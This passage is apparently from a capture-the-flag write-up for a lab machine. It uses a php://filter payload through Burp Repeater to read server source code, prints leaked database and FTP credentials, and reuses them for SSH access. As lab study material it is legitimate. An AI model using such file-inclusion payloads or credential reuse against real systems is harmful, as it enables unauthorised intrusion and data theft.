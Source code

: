 [![Burp
Repeater](https://0xdfimages.gitlab.io/img/image-20200405152859488.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20200405152859488.png)

That’s a strange message (I’ll look at it in Beyond Root). What about a
filter? When I submit
`url=php://filter/convert.base64-encode/resource=/var/www/backup.forwardslash.htb/index.php`,
I get a blob of base64:

[![Burp Repeater got source
code](https://0xdfimages.gitlab.io/img/image-20200405153217702.png)_Click for
full size
image_](https://0xdfimages.gitlab.io/img/image-20200405153217702.png)

I can use this to read the rest of the site source. The only page with
anything relatively interesting at the root was `config.php`, which had some
creds:

    
    
    <?php
    //credentials for the temp db while we recover, had to backup old config, didn't want it getting compromised -pain
    define('DB_SERVER', 'localhost');
    define('DB_USERNAME', 'www-data');
    define('DB_PASSWORD', '5iIwJX0C2nZiIhkLYE7n314VcKNx8uMkxfLvCTz2USGY180ocz3FQuVtdCy3dAgIMK3Y8XFZv9fBi6OwG6OYxoAVnhaQkm7r2ec');
    define('DB_NAME', 'site');
     
    /* Attempt to connect to MySQL database */
    $link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
     
    // Check connection
    if($link === false){
        die("ERROR: Could not connect. " . mysqli_connect_error());
    }
    ?>
    

I couldn’t find anywhere that these were useful.

Moving to `/dev`, I grabbed the source for `index.php`. Right in the middle of
the page are creds for FTP login as chiv:

    
    
    if (@ftp_login($conn_id, "chiv", 'N0bodyL1kesBack/')) {
        error_log("Getting file");
        echo ftp_get_string($conn_id, "debug.txt");
    }
    

### SSH

Those creds work for SSH access as chiv:

    
    